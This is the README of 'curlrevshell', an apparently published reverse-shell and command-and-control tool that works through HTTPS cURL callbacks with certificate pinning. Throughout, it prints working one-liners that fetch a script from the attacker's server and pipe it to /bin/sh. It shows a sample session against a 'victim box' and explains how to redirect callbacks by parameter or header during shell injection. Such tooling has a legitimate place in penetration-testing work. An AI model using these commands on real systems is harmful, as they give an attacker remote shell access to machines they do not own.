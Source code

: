 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Non-zero [documentation](./doc/README.md)

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@latest
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@latest
go: downloading github.com/magisterquis/curlrevshell v0.0.1-beta.3
go: downloading golang.org/x/net v0.22.0
go: downloading golang.org/x/sync v0.6.0
go: downloading golang.org/x/term v0.18.0
go: downloading golang.org/x/tools v0.19.0
go: downloading golang.org/x/sys v0.18.0
go: downloading golang.org/x/text v0.14.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://127.0.0.1:4444/c | /bin/sh
curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Got a shell: ID:zcj5vz3zp6ce
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file
  -ipv6-one-liners
    	Also print callback one-liners with IPv6 addresses
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -no-timestamps
    	Don't print timestamps
  -print-default-template
    	Write the default template to stdout and exit
  -prompt string
    	Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/curlrevshell/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs.
`/{anythingelse}` | Either serves up files of 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default script is
[script.tmpl](internal/hsrv/script.tmpl).

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c'
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.
